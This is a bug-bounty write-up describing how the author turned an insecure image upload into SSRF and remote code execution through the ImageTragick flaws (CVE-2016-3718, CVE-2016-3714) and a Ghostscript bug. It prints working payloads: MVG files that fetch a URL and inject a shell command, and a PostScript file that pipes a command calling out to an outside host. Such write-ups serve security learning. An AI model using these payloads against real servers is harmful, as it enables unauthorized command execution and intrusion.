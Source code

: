 ```yaml
---
title: Insecure File Upload Leads to SSRF and RCE
author: Muhammad Adel
date: 2021-011-10 19:40:00 +0200
categories: [Bug Hunting]
tags: [bug hunting, web, writeups]
---
```

## **Introduction**
Peace be upon you all, I am going to share with you a vulnerability which I have found almost a year ago and it is really remarkable for me because it was the first critical one for me any way let's jump in.

## **ImageMagick**
It is a package commonly used by web services to process images. A number of image processing plugins depend on the ImageMagick library, including, but not limited to, PHP's imagick, Ruby's rmagick and paperclip, and nodejs's imagemagick.. it has been commonly exploited in 2016 when Nikolay Ermishkin from the Mail.Ru Security Team discovered several vulnerabilities in it under the CVEs **(CVE-2016-3714 - CVE-2016-3718 - CVE-2016-3715 - CVE-2016-3716 - CVE-2016-3717).** you can know more information about the vulnerability form here:  
[https://imagetragick.com/](https://imagetragick.com/)
## **The Finding**
I was testing the target for a couple of days and I was able to find multiple trivial XSS that's gave me an indication that this target didn't tested well before. Also, the target was running with PHP and I love it as Bug Hunter :). I looked for the file upload vulnerability and I started by sending it to burp plugin which test the file upload vulnerability. after some minutes I saw that red message that the target is vulnerable to CVE-2016-3714. great it is time for validating.

### **SSRF via CVE-2016-3718**
I will setup burp collaborator to receive the connection then simply add the following payload and replace with my your web server URL:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://example.com/)'
pop graphic-context
```

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2FRRICM91g9OJ6HA9gLHTI%2FImagetragick%20CVE-2016-3718_redacted.png?alt=media&token=67ecf899-b8c0-4627-9fa8-745bf4d20843)

### **RCE via CVE-2016-3714**

Now, we have confirmed that it is using the image magic library and it is vulnerable to SSRF so let's try to get RCE.
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```

I tried it but it didn't give back anything. maybe it is blind?

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2Ferrm4RKgIvm3SHHVxJ2Q%2FImagetragick%20CVE-2016-3718%20Payload.png?alt=media&token=aab34ad1-4c87-4bfe-8bc3-45c130d1893b)

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2F0E7YUTHCDpWGo4963XkO%2FCollaborator%20CVE-2016-3718.png?alt=media&token=40aea20d-3428-4a61-86b6-98571a34ffae)

Great it is working perfectly!!

### **RCE via GhostScript**
After digging deeper I found that it is also vulnerable to ghostscript vulnerability which also will allow us to get RCE. let's see the following payload:

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%nslookup <url>) currentdevice putdeviceprops
```
![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MR5KvOL_gXbwMWP6Z6m%2Fuploads%2FhyxVQVe6vG7InHA9B1H7%2FGhostscript%20RCE%20via%20File%20Upload%20redacted.png?alt=media&token=7ec3f68f-dc3d-452d-9c3a-10dc53dd9c36)

## **Conclusion**
I hope you enjoyed reading this and if you have any question feel free to ping me any time, Happy Hunting!
